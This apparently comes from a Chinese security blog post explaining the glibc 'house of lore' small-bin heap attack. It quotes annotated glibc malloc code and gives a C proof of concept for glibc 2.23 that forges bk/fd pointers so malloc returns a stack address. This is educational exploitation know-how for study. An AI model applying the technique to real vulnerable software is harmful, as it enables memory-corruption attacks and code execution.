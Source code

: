 ```yaml
---
layout: post
title: house of lore：一种“smallbin attack”
category: Heap
date: 2023-9-23 21:04:32
---
```

Heap基础知识
<!-- more -->
[toc]
# house of lore

`house of lore`是针对`small bin`的一种攻击方法，和`unsorted bin attack`与`large bin  attack`很类似。个人感觉称之为`small bin attack`也没啥问题。

一句话描述该攻击方式：正常情况下，`small bin`取出一个`chunk`的时候会从末尾取出，这个`victim`的`bk`指针指向的是倒数第二个`chunk`，称为`bck`。此时检查`bck`的`fd`指针是否指向`victim`，通过检查后将`victim`取出，并将`bck`的`fd`指针指向`small bin`。若我们控制`victim`的`bk`指针，使其指向一个我们控制的`fake_chunk`，那么只需要控制该`fake_chunk`的`fd`指针指向了`victim`，这样以来便可以在取出`victim`的时候，将`fake_chunk`挂入`small bin`中。注意，取出`fake_chunk`的时候又需要经过`small bin`的检查，因此再此构造一个`fake_chunk2`，将`fake_chunk2`的`fd`指针指向`fake_chunk`，`fake_chunk`的`bk`指向`fake_chunk2`即可。

`small bin`取出的过程如下：

```c
if (in_smallbin_range(nb)) // 请求的大小位于smallbin
    {
        idx = smallbin_index(nb); // 请求的大小属于哪一个smallbin，找到下标idx
        bin = bin_at(av, idx);    // 通过下标找到具体的这个bin

        if ((victim = last(bin)) != bin) // last宏就是#define last(b) (b->bk)，因此就是定位到smallbin的最后一个chunk，而且smallbin不为空（bin->bk!=bin）
        {
            if (victim == 0) /* initialization check */
                             // 假如smallbin为空，那么这里不会进行分配，要到后面unsortedbin。合并所有的fastbin chunk，合并到unsorted bin里面去
                malloc_consolidate(av);
            else // 定位到了这个smallbin，取出里面的一个chunk，从队尾开始取
            {
                bck = victim->bk;                        // bck是victim的bk，也就是倒数第二个
                if (__glibc_unlikely(bck->fd != victim)) // bck的fd假如不为victim说明出错
                {
                    errstr = "malloc(): smallbin double linked list corrupted";
                    goto errout;
                }
                set_inuse_bit_at_offset(victim, nb); // 取出这个victim。也就是队尾的这一个。
                bin->bk = bck;                       // 取出后，bin的bk将会变成倒数第二个chunk
                bck->fd = bin;                       // 取出后，倒数第二个chunk将会指向small bin

                if (av != &main_arena) // 假如不是在主线程(main_arena)，添加上不是在main_arena的标记
                    victim->size |= NON_MAIN_ARENA;
                check_malloced_chunk(av, victim, nb);
                void *p = chunk2mem(victim); // 获得指向可用区域的指针
                alloc_perturb(p, bytes);
                return p; // 返回该指针
            }
        }
    }
```

笔者在`glibc 2.23`下，使用了以下代码成功完成攻击：

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    long fake_chunk[0x110]; // 在栈上伪造一个fake chunk，最终申请到这里表示攻击成功
    long fake_chunk2[0x110]; // 需要fake_chunk2，作用是最后从small bin中取出fake_chunk的时候，逃避检查
    printf("the addr of fake chunk is %p\n", fake_chunk);
    long* a = malloc(0x100); // 申请一个属于small bin的chunk
    malloc(0x20); // 防止被top chunk合并
    free(a); // chunk a会被置入 unsorted bin
    malloc(0x120); // 申请一个大chunk，这会让chunk a置入small bin 

    /* 攻击 */
    a[1] = &fake_chunk[0]; // chunk a的bk指针要指向fake_chunk
    fake_chunk[2] = a - 2; // fake_chunk的fd指针要指向chunk a 
    malloc(0x100); // 申请一个chunk a大小的chunk

    // 接下来我们希望能够取出fake_chunk，但是这个时候又会经历一次small bin的检查
    // 因此我们借助fake_chunk2来逃避检查
    // 只需要将fake_chunk的bk指向fake_chunk2，fake_chunk2的fd指向fake_chunk即可。
    fake_chunk[3] = &fake_chunk2[0]; // fake_chunk的bk指向fake_chunk2, fake_chunk2就是bck
    fake_chunk2[2] = &fake_chunk[0]; // fake_chunk2的fd必须指向fake_chunk
    long* b = malloc(0x100); // 再次申请一个
    printf("the addr of chunk b is %p.\n", b - 2); // 神奇地发现就是栈上的地址
    return 0;
}
```

## 